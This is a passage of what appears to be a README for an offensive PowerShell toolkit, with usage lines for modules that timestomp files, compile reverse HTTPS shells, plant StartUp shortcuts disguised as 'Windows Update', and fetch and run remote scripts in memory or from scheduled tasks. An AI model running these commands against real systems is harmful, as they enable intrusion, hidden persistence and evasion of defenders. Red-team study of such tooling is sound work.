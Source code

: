 ```	   
Usage: ```Invoke-TimeStomp -File C:\programdata\file.exe```

## Invoke-XuLiE
Compiles a reverse (PowerShell) HTTPS shell .NET executable in real-time using csc.exe which utilizes ```System.Management.Automation.dll``` for its functionality. It drops the resulting executable in a randomly selected directory. Creates a .lnk in StartUp for persistence. The generated file will have a randomly-generated file name, a .dat extension and be executed via "cmd /c start file.dat". 

Requires an SSL listener on the attacker-side.

Usage: ```Invoke-XuLiE -Lhost 192.168.1.2 -Lport 443 -LnkName "Windows Update"```

## New-Lnk
Generates an LNK file with a custom command in current users' StartUp directory.

Usage: ```New-Lnk -BaseCmd "cmd.exe" -CmdArgs "/c foo" -IconNum 220 -LnkName "IE Update"```

## New-PsDat
Compiles a .NET Executable as a .dat file which takes a url to remotely hosted powershell script as an argument. Uses ```System.Management.Automation.dll``` for its functionality. Uses ```DownloadString``` method to execute remote powershell script in memory.

Generate the .dat: ```New-PsDat``` (no additional parameters)

Using the .dat: ```cmd /c eXuNt.dat https://server/script.ps1 valid_ps_function```

## New-PsTask
Generates a scheduled task that utilizes Net.Webclient Downloadstring method to a remote PowerShell script.

Usage: ```New-PsTask -PSUrl http://server/script.ps1 -TaskName "Test" -Time "00:01"```

## New-Reverse
Compiles a .NET (PowerShell) Reverse HTTPS Shell Executable. Currently only SSL listener is supported.

Usage: ```New-Reverse -Lhost 192.168.1.1 -Lport 443```


# Usage Screenshots

## Invoke-Creds 

![screenshot](https://raw.githubusercontent.com/securemode/Invoke-Apex/master/img/Invoke-Creds.png)

## Invoke-DefenderTools 

![screenshot](https://raw.githubusercontent.com/securemode/Invoke-Apex/master/img/Invoke-DefenderTools.png)

## Invoke-Execute 

![screenshot](https://raw.githubusercontent.com/securemode/Invoke-Apex/master/img/Invoke-Execute.png)

## Invoke-MitreReference 

![screenshot](https://raw.githubusercontent.com/securemode/Invoke-Apex/master/img/Invoke-MitreReference.png)


# DISCLAIMER
```